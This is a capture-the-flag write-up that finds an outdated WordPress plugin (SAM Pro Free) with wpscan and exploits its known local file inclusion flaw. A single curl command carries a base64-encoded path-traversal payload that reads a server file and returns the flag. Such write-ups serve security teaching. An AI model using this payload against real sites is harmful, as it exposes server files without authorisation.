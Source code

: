 What the LFI ?
==============

So we got a website : http://54.201.224.15:14099/ and we need to get `/var/www/blah.php` file.
Given the title, we know we need to find some LFI.

# Recon

This is a wordpress site, so just run wpscan, and after a few seconds :

```
[+] Enumerating plugins from passive detection ...
 | 1 plugin found:

[+] Name: sam-pro-free - v1.8.2.51
 |  Last updated: 2017-06-19T15:42:00.000Z
 |  Location: http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/
 |  Readme: http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/readme.txt
[!] The version is out of date, the latest version is 2.4.1.92

[!] Title: SAM Pro (Free Edition) <= 1.9.6.67 - Local File Inclusion (LFI)
    Reference: https://wpvulndb.com/vulnerabilities/8647
    Reference: https://www.pluginvulnerabilities.com/2016/10/28/local-file-inclusion-lfi-vulnerability-in-sam-pro-free-edition/
    Reference: https://plugins.trac.wordpress.org/changeset/1526624/sam-pro-free
[i] Fixed in: 1.9.7.69

```

# Exploit

Just find the exploit from documentation, then base64 encode your path (`../../../../../../../var/www/blah.php`) and:

```bash
$ curl 'http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=Li4vLi4vLi4vLi4vLi4vLi4vLi4vdmFyL3d3dy9ibGFoLnBocA=='
flag{dont_include_files_derived_from_user_input_kthx_bai}
```
